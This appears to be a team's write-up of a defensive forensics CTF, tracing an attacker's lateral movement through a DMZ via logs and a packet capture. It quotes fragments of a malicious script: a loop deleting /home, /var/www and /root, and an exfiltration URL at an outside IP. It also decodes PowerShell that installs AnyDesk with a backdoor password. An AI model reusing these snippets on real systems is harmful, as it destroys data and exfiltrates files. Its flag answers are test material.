# DMZ

## DMZ01
> After a successful ligolo-ng agent installation. The attacker wanted to broaden their attack surface to other hosts in the dmz subnet which command did the attacker use to see the host IP?

From task [Loan38](Loan.md#loan38) we remember that ligolo-ng agent was installed on `loan` server sometimes after `18:00`. So we started looking at the logs in `auditbeat-*` Data view and filtered for `agent.name:loan` and looked at logs after ligolo-ng installation but before it started the VPN tunnel. We noticed that there was `ip a` command executed via remote shell (destination IP `195.20.9.183`).



> Flag: `ip a`

## DMZ02
> Let's now look back into the Alerts section, which alert may signalize a network discovery attempt?

From the previous investigation of attacker activity on `loan` server, we see that there were lot of network flow events related to process `.\agent` towards different internal IPs and ports - which reminds us of network port scan activities using nmap tool. 



So we go the Kibana Alerts dashboard and we look for alerts raised around `18:16` with relation to port scan:



> Flag: `Possible internal Port Scan detected`

## DMZ03
> Attacker discovered many hosts across the dmz subnet, did he successfully access any of the hosts? If yes submit the hostname of first accessed host.

We started by investigating ssh activity originating from the `loan` server by filtering logs in `filebeat-*` Data view using `source.ip:"192.168.11.49"` and `process.name:sshd`. This returned only three documents, and when we investigated further we noticed that attacker accessed first `dzmFTP` using the stolen ssh key from user `spravca`.



> Flag: `dmzFTP`

## DMZ04
> As which user did attacker log in to the dmzFTP host?

Visible in previous task.

> Flag: `spravca`

## DMZ05
> What is the name of a binary log file that records all login and logout activities, system startups, and shutdowns. This file is not a plain text log; it is typically parsed by tools like the last command to display session history. Full path.

Simple Google Search answered this question.

> Flag: `/var/log/wtmp`

## DMZ06
> Back to dmzFTP. What was the command used by attacker for initial host OS identification. Whole terminal entry.

From the previous task, we learned that the attacker logged to `dmzFTP` server at `18:23` using the public key from user `spravca`. We looked at the `process.pid:3908` of that session and then investigated all events with using filter `host.name:"dmzftp" and process.parent.pid:"3908"` in `auditbeat-*` data view.



> Flag: `cat /etc/os-release`

## DMZ07
> Right after the initial OS enumeration. We can see a command that initiated a download of a file. What software was downloaded?

Visible in previous task.

> Flag: `teamviewer`

## DMZ08
> What was the source URL of TeamViewer download?

Visible in previous task.

> Flag: `https://download.teamviewer.com/download/linux/teamviewer_amd64.deb`

## DMZ09
> After a successful TeamViewer installation, the software was started with a password, what was it?

Scrolling further down the logs, we see command that started TeamViewer.



> Flag: `hackedftp753`

## DMZ10
> Shortly before the TeamViewer execution, a user was created. What was the name of the user?

Scrolling bit further is the add user command.



> Flag: `admfile`

## DMZ11
> What was the password of this user?

Visible from previous task.

> Flag: `heslo200`

## DMZ12
> Attacker later tried to establish a persistence on the dmzFTP host, which command was used? 1 word.

We continue looking at the logs from the same ssh session.



> Flag: `crontab`

## DMZ13
> After the cron task creation, we can see some network activity coming from the host. Go back to the alerts section and check if there were any periodically generated alerts. What was the name of the alert, that this host generated?

After looking at logs on dmzFTP, painstakingly filtering our distractions, noticed `curl` running from `cron` on regular basis. 



After this looked at the security alert view and searched for `200.98.8.82`.



> Flag: `Shell Script`

## DMZ14
> Now let's switch back to just open alerts, what was the name of the first downloaded file from a foreign IP.

Looking at alert details we see which `file.name` was first.



> Flag: `healthcheck`

## DMZ15
> Which user agent was used during the download?

For this we went back to Wireshark and look at the pcap, filter `ip.addr == 200.98.8.82`, find the `GET /healthcheck` and follow HTTP stream.



> Flag: `curl/7.58.0`

## DMZ16
> Before the successful download, we recorded several failures. What is the error code explanation for those attempts?

Visible in previous task.

> Flag: `404 - Nothing matches the given URI.`

## DMZ17
> What was the foreign IP, from which the file originated?

Visible in previous task.

> Flag: `200.98.8.82`

## DMZ18
> Now it's time to check 3rd party tools like abuseipdb for IP reputation. What was the country of origin?



> Flag: `Brazil`

## DMZ19
> What was the full ISP name listed in AbuseIPDB?

Visible in previous task.

> Flag: `Universo Online S.A.`

## DMZ20
> What was the second file name in the alerts section?

Look at the task [DMZ14](#dmz14).

> Flag: `file`

## DMZ21
> Focus on the file. Which directories are deleted after a successful exfiltration? Sort them alphabetically. Format: /dir1,/dir2,/dir3

In the pcap file, the `file` file gets eventually downloaded, found it with filter `tcp.stream eq 6526` and following the TCP stream, will see this in the stream:

```
 # 4. DESTRUCTION PHASE
        for DIR in /home /var/www /root; do
            if [ -d "$DIR" ]; then
                echo "Clearing $DIR..."
                # Safety: clear contents, keep the directory
                find "$DIR" -mindepth 1 -delete 2>/dev/null
            fi
        done
```

> Flag: `/home,/root,/var/www`

## DMZ22
> To which URL did the file exfiltration take place?

Looking at the full stream data from previous task, we see part of the `file` that defines exfiltration url:

```
# HTTP Server details
# Replace with your company's actual ingest URL
DEST_URL="http://200.98.8.82:4443/upload"

```

> Flag: `http://200.98.8.82:4443/upload`

## DMZ23
> Which user started these curl requests that downloaded the files?

 Searched for `host.name:"dmzftp" and process.parent.pid:"6399" ` in `auditbeat-*` and checked the `user.name` associated with the curl command.

 

> Flag: `root`

## DMZ24
> Based on the cron activity regarding the healthcheck file. We can see that it was executed regularly and quite often, what was the minute field value in the crontab while creating the cron job based on the repetition of the activity?

Filtering the logs to show just `curl` process, we see that it runs regularly every 5 min.



> Flag: `*/5`

## DMZ25
> What was the second host that attacker successfully logged in to from loan?

See task [DMZ03](#dmz03).

> Flag: `velociraptor`

## DMZ26
> What was the time of the login to the second host? Use ISO8601 format e.g.: 2026-01-17T22:49:53

See task [DMZ03](#dmz03).

> Flag: `2026-01-15T19:54:38`

## DMZ27
> After gaining initial access, adversaries often propagate through the environment to explore and compromise additional systems. What is this tactic called?

We consulted NI (natural intelligence) operating in our skull. :)

> Flag: `lateral movement`

## DMZ28
> What is the MITRE ATT&CK Tactic ID of Lateral Movement?

Consulted LLM.

> Flag: `TA0008`

## DMZ29
> After attacker successfully logged into velociraptor host. Using velociraptor GUI he created a user that was later added to a highly privileged group. What was the full commandline of user creation?

This was the most difficult and fun task, I loved it! (after solving it of course, I hated it until then!) Spent 4 hours stuck on this, reading every single document on `velociraptor` server trying to figure out what command attacker used to create `velociraptor_backup` user on that machine. We submitted dozen answers that were not accepted:
    
  - `/sbin/useradd -d /home/velociraptor_backup -g velociraptor_backup -s /bin/bash -u 1003 velociraptor_backup`
  - `/usr/bin/perl /usr/sbin/adduser velociraptor_backup`
  - `"sh -c ""$@"" >/dev/null 2>&1 -- /usr/sbin/zsysctl userdata create velociraptor_backup /home/velociraptor_backup"`
  - `sudo adduser velociraptor_backup`
  - `sudo /opt/velociraptor/velociraptor --config /opt/velociraptor/velociraptor.config.yaml user add backup --role administrator`

With team we discussed and word `later` was one bothering us.. all the commands executed on `velociraptor` server added the user immediately into the group.. then later, while going though [Velociraptor documentation](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/Velociraptor/Velociraptor.md) we had an epiphany - what if attacker did not use GUI to create user on `velociraptor` server, but on some other machine, since it had full admin rights via the agent running in the Coolbank evenironmnet? Thought immediately followed - if I would be attacker, where would I create user that later would be added to `a highly privileged group` - Windows Domain Controller of course! And the rest was walk in the park! Beautiful... kudos to one who developed this task!

After searching in `winlogbeat-*` for `process.parent.name:"Velociraptor.exe" ` we got our answer.

NOTE: Velociraptor adds "cmd /c" when running command from GUI so answer was without it.



> Flag: `net user administratr B3ckup42 /ADD /DOMAIN`

## DMZ30
> What is the highly privileged group that the newly created user was added to?

Follow the logs from previous task.



> Flag: `Domain Admins`

## DMZ31
> Something was later downloaded through velociraptor, what is the full web request path of the downloaded file?

In `winlogbeat-*` apply filter for `process.parent.executable: C:\Program Files\Velociraptor\Velociraptor.exe`, there you will find PowerShell process, decode the payload:

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe, -ExecutionPolicy, Unrestricted, -encodedCommand, WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAIABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAG8AdwBuAGwAbwBhAGQALgBhAG4AeQBkAGUAcwBrAC4AYwBvAG0ALwBBAG4AeQBEAGUAcwBrAC4AZQB4AGUAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMAXABBAG4AeQBEAGUAcwBrAC4AZQB4AGUAIgA=
```

Using online base64 decoders, we see full command:

```
[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12; Invoke-WebRequest "https://download.anydesk.com/AnyDesk.exe" -OutFile "C:\Users\Public\AnyDesk.exe"
```

> Flag: `https://download.anydesk.com/AnyDesk.exe`

## DMZ32
> To which folder was the downloaded file saved? Full path.

Visible in previous task.

> Flag: `C:\Users\Public\`

## DMZ33
> We can later see that there was a specific argument supplied to the installation command that launches the software automatically as Windows boots up, what was the argument? Accepted answer format is `--argument`.

AnyDesk.exe was downloaded on ADC1ofc but installation was done on ADC2ofc. Just search for `anydesk.exe` in `winlogbeat-*`.



> Flag: `--start-with-win`

## DMZ34
> Right after the software installation, the attacker set a backdoor password to the program. What was the password?

Following the logs, we find another PowerShell encoded command:



After decoding, we get:

```
echo IwAsHere42|  & "C:\Users\Public\AnyDesk.exe" --set-password
```
> Flag: `IwAsHere42`

## DMZ35
> This process of creating a backdoor for easy access has a specific MITRE ATT&CK Technique name, what is it?

We used Google, Mitre and consulted LLMs to answer this: https://attack.mitre.org/techniques/T1219/

> Flag: `Remote Access Tools`

## DMZ36
> There is a specific MITRE ATT&CK subtechnique that mentions that attackers use legitimate RMM tools such as AnyDesk, what is the ID?

(This is the last question of Guardians 2026 qualification. Congratulations!)

We read thought Mitre technique T1219 documentation and settled on answer being https://attack.mitre.org/techniques/T1219/002/

> Flag: `T1219.002`